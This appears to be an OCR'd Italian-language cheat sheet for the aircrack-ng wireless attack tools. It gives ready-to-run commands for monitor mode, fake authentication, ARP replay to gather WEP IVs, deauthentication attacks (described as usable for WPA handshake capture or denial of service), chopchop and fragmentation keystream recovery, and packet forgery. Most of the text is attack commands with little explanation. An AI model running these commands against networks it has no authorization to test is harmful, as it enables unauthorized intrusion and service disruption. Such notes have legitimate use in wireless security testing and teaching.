 ```tcpdump 'tcp port 80 and (((ip[2:2] - ((ip[0]&amp;0xf)<<2)) - ((tcp[12]&amp;0xf0)<<2)) != 0)'```
Forgia un pacchetto in modo da poterlo usare con aireplay-ng.
Genera un pacchetto da essere utilizzato con aireplay -2 per iniettare pacchetti di tipo
arp-request nella rete, e fare l'airodump:

`packetforge-ng -0 -a $AP -h $WIFI -k 255.255.255.255 -l 255.255.255.255 -y ilFile.xor -w file`




## airmon-ng

mette la scheda wireless in monitor mode. es airmon-ng start ath1




## aireplay

Inietta del traffico artificiale verso la rete.

Fake Authentication Serve per individuare se AP risponde come tempo mettere es 10 opp 0 sec.
Se AP non risponde, pu? darsi ci sia firewall MAC, in ogni caso non funzionera' airodump:

`aireplay-ng -e - ssid rete-  -a - macAP-  -h - mioMAC-  --fakeauth - tempo-  - nomescheda- `


Questo programma funziona similmente ad uno sniffer, andando alla ricerca dei pacchetti ARP request,
ovvero i pacchetti interessanti al fine del crakkaggio. Una volta ottenuto,
inizia a rimandarlo all'AP che risponder? con degli IV che verranno sniffati da airodump:

`aireplay-ng --arpreplay -b - macAP-  -h -- mioMAC-  - nomescheda- `


Attacco di deautenticazione, Questo attacco puo' essere usato per recuperare un SSID nascosto
(cioe' che non e'broadcast), catturare una handshake WPA a 4 vie o lanciare un attacco
di tipo Denial of Service. Lo scopo dell'attacco ? di obbligare il client a ri-autenticarsi che,
consente all'aggressore di falsare gli indirizzi MAC:

`aireplay-ng -0 $numVolte -a $AP -c $client ath0`


Decriptare pacchetti WEP senza conoscere la chiave. Vengono creati due file pcap:
uno per il pacchetto decifrato e l'altro per il relativo keystream. il file .cap puo' essere
letto da un lettore (es. tcpdump); mentre il file .xor puo' essere utilizzato per falsare
pacchetti e inviarli:
`aireplay-ng -4 -h $client ath0`


Permette di ricavare il keystream con la tecnica del fragment:
`aireplay-ng -5 -b $AP -h $WIFI ath1`


Ritrasmissione di un pacchetto alterato con arpforge:
`aireplay -2 -r forge-arp.cap ath0`


tcpdump per leggere un plaintext ottenuto con aireplay-ng -4:

`tcpdump -s 0 -n -e -r replay\_dec-0916-114019.cap`



```